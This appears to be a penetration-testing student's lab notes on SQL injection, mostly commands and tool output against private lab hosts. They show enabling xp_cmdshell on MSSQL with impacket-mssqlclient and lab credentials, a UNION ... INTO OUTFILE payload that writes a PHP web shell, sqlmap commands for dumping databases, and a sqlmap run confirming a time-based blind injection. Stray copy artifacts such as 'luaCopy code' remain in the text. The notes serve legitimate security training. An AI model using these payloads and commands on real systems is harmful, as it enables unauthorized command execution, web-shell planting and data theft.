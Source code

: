 ### MANUAL CODE EXECUTION

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md#mssql-command-execution

└─$ impacket-mssqlclient Administrator:Lab123@192.168.231.18 -windows-auth

SQL> **EXECUTE sp_configure 'show advanced options', 1;**
INFO(SQL01\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.  ****
SQL> **RECONFIGURE; - to configure**
SQL> **EXECUTE sp_configure 'xp_cmdshell**', 1; **to open the xp_cmdshell**
 INFO(SQL01\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL> **RECONFIGURE   ----applies all the changes**
SQL> 

SQL> EXECUTE xp_cmdshell 'whoami';
nt service\mssql$sqlexpress  

This could be used to write a Webshell to Disk via INTO OUTFILE directive
```
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
```

### AUTOMATIC EXPLOTATION

### BEST MYSQL COMMANDS FOR PENETRATION TESTING
1. **Basic Scan:** Identify available databases
    `sqlmap -u "http://target-url.com/page.php?id=1" --dbs`
2. **Specify Database Type:** Choose the database management system.
    luaCopy code
    `sqlmap -u "http://target-url.com/page.php?id=1" --dbms=mysql`
3. **List Databases:** List databases on the target.
    luaCopy code
    `sqlmap -u "http://target-url.com/page.php?id=1" --dbs`
4. **List Tables in a Database:**
    luaCopy code
    `sqlmap -u "http://target-url.com/page.php?id=1" -D dbname --tables`
5. **Dump Table Data:** Retrieve and dump data from a table. 
    luaCopy code 
    `sqlmap -u "http://target-url.com/page.php?id=1" -D dbname -T tablename --dump`
6. **Fingerprint the Web App:** Identify the web app technology.
    luaCopy code
    `sqlmap -u "http://target-url.com/page.php?id=1" --fingerprint`
7. **Test for SQL Injection:** Thoroughly check for SQL injection vulnerabilities.
    `sqlmap -u "http://target-url.com/page.php?id=1" --risk 3 --level 5`
8. **Specify Cookies:** Use cookies for authentication.
    `sqlmap -u "http://target-url.com/page.php" --cookie="PHPSESSID=12345" --dbs`
9. **Use a Proxy:** Test through a proxy server.
    `sqlmap -u "http://target-url.com/page.php?id=1" --proxy="http://localhost:8080"`
10. **Specify User-Agent:** Set a custom User-Agent header.
    `sqlmap -u "http://target-url.com/page.php?id=1" --user-agent="Mozilla/5.0 (Windows NT 10.0; Win64; x64)"`

We can use sqlmap to do an automated SQL injection
┌──(hollacosta㉿kali1)-[~]
└─$ sqlmap -u http://192.168.227.19/blindsqli.php?user=1 -p user
starting @ 14:59:05 /2023-10-01/
[14:59:05] [INFO] testing connection to the target URL
got a 302 redirect to 'http://192.168.227.19/login1.php?msg=2'. Do you want to follow? [Y/n] y
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=ib3f9kb10kc...Y
checking if the target is protected by some kind of WAF/IPS
testing if the target URL content is stable
heuristic (basic) test shows that GET parameter 'user' might not be injectable
 testing for SQL injection on GET parameter 'user'
testing 'AND boolean-based blind - WHERE or HAVING clause'
 testing 'Boolean-based blind - Parameter replace (original value)'
 testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'                                                                      
 testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
 testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'                                                                                     
 testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
testing 'Generic inline queries'
 testing 'PostgreSQL > 8.1 stacked queries (comment)'
 time-based comparison requires larger statistical model, please wait. (done)
 testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
 testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
GET parameter 'user' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable                                                                      
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] n
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [ Y
 testing 'Generic UNION query (NULL) - 1 to 20 columns'
 automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
checking if the injection point on GET parameter 'user' is a false positive
GET parameter 'user' is vulnerable. Do you want to keep testing the others (if any)? [y/N] y
sqlmap identified the following injection point(s) with a total of 77 HTTP(s) requests:
---
Parameter: user (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: user=1' AND (SELECT 1859 FROM (SELECT(SLEEP(5)))ezMr) AND 'KAko'='KAko
---
the back-end DBMS is MySQL
it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
web server operating system: Linux Ubuntu 22.04 (jammy)
web application technology: PHP, Apache 2.4.52
back-end DBMS: MySQL >= 5.0.12
 fetched data logged to text files under '/home/hollacosta/.local/share/sqlmap/output/192.168.227.19'                                                                    


